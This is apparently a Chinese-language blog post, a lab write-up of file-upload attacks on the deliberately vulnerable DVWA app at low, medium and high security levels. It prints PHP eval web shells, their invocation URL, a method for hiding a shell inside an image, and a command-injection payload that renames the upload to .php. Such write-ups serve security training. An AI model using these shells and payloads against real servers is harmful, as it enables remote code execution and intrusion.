 ```yaml
---
layout: post
title: File Upload
subtitle: File Upload
date: 2023-08-01 23:00
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - DVWA
  - 靶场实战
published: true
---
```

# 文件上传漏洞
### LOW

the.php

```php
<?php eval($_GET['bckdor'])?> 
```

构造url: http://192.168.30.131/dvwa/hackable/uploads/the.php?bckdor=

```php
phpinfo(); 
system('ls'); 
```

**中国菜刀**

```php
<?php eval($_POST['bckdor'])?>
```
### MEDIUM

将the.php改为the.jpg

burpsuit抓取request，修改文件后缀
### HIGH

准备图片image.png和hack.php

```shell
#生成带有木马的图片
#image.png/b中“b”表示“二进制文件”，hack.php/a中“a"表示ASCII码文件
copy image.jpg/b+hack.php/a hack.jpg
```

利用Command Injection

```
127.0.0.1|mv ../../hackable/uploads/hack.jpg ../../hackable/uploads/hack.php
```